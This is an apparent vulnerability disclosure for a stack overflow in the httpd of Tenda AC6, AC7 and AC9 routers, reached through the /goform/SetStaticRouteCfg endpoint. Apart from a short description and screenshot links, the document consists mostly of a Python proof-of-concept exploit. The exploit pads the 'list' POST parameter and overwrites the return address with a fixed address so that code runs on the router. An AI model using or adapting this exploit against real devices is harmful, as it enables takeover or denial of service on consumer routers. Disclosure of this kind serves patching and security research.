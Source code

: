 # static_router_stackoverflow

Vender ：Tenda

Firmware version:US_AC6V1.0BR_V15.03.05.16_multi_TD01 US_AC7V1.0RTL_V15.03.06.44_multi_TD01 && US_AC9V3.0RTL_V15.03.06.42_multi_TD01.bin
 
Exploit Author: doudoudedi233@gmail.com

Vendor Homepage: https://www.tenda.com.cn/default.html

Hardware Link:https://www.tenda.com.cn/download/detail-2661.html && https://www.tenda.com.cn/download/detail-2776.html 

#### Describe

  In Tenda AC6 AC7, AC9,The httpd component does not limit the length of the post parameter when setting the static route in /goform/setstaticroutecfg, resulting in stack overflow covering the return address and code execution

#### Detail

<img src="./img/image-20210917120859736.png" alt="image-20210917120859736" style="zoom:50%;" />

follow up sub_77EC8

<img src="./img/image-20210917121019246.png" alt="image-20210917121019246" style="zoom:50%;" />

<img src="./img/image-20210917123041024.png" alt="image-20210917123041024" style="zoom:50%;" />

 	Therefore, a stack overflow vulnerability is generated, which can cover the return address 

<img src="./img/image-20210917121219712.png" alt="image-20210917121219712" style="zoom:50%;" />

<img src="./img/image-20210917121127321.png" alt="image-20210917121127321" style="zoom:50%;" />

POC

```
import requests
from pwn import *

url = "http://192.168.0.1/goform/SetStaticRouteCfg"


payload = "a"*7+"f"*7+"c"+"b"*(0x30)+p32(0x000697D8)+"d"*0x80

f=open("payload","w")
f.write(payload)
f.close()
f1=open("payload")
payload=payload+f1.read()
print payload
'''
proxies = {
  'http': 'http://127.0.0.1:8080',
  'https': 'http://127.0.0.1:8080',
}
'''
data={
	"list":"192.168.33.0,255.255.255.0,192.168.33.1,WAN1"+payload
}
headers={
	"Host":"192.168.0.1",
	"User-Agent":"Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0",
	"Accept":"*/*",
	"Accept-Language":"en-US,en;q=0.5",
	"Accept-Encoding":"gzip, deflate",
	"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
	"X-Requested-With":"XMLHttpRequest",
	"Origin":"http://192.168.0.1",
	"Referer":"http://192.168.0.1/static_route.html?random=0.9469249426877971&",
	"Upgrade-Insecure-Requests":"1"
}

response = requests.request("POST", url, headers=headers, data=data)
```



